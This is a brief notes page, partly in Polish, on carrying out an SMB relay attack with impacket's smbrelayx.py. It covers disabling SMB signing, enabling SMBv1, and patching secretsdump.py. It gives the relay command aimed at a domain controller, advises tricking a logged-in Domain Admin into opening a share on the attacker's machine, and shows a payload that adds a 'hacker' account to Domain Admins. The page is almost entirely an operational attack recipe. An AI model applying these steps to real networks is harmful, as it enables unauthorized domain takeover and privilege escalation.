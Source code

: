 ## smbrelayx.py (impacket)
### Intro
SMB Relay attacks
### Preq
Disable SMB Signing
Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters  
enablesecuritysignature -> 0  
requiresecuritysignature -> 0  
Enable SMBv1 Enable-WindowsOptionalFeature -Online -FeatureName smb1protocol  
Share folders and printers  
### Config
#### Error - SMB SessionError: "STATUS_OBJECT_NAME_NOT_FOUND"  
12.2020 - dla najnowszej wersji Windows 2016 konieczna zmina miejsca gnenerowania pliku wykonywalnego po stronie ofiary
``/usr/lib/python3/dist-packages/impacket/examples/secretsdump.py``  
z  
``self.__batchFile = '%TEMP%\\execute.bat'``  
na  
``self.__batchFile = 'C:\\Folder\\execute.bat'``
### Uses
1. Uruchom Relay SMB stacji w podsieci  
``sudo python3 /usr/share/doc/python3-impacket/examples/smbrelayx.py -h _IP_DOMAIN_CONTROLER_ -c "_COMMAND_"``
2. Przekonaj klienta z zalogowanych Domain Admin na próbe otwarcia smb share na spreparowanej stacji
3. _COMMAND_ - zosatnie wykonane np.  
``ipconfig``  
``net group "Domain Admins" hacker /ADD /DOMAIN``


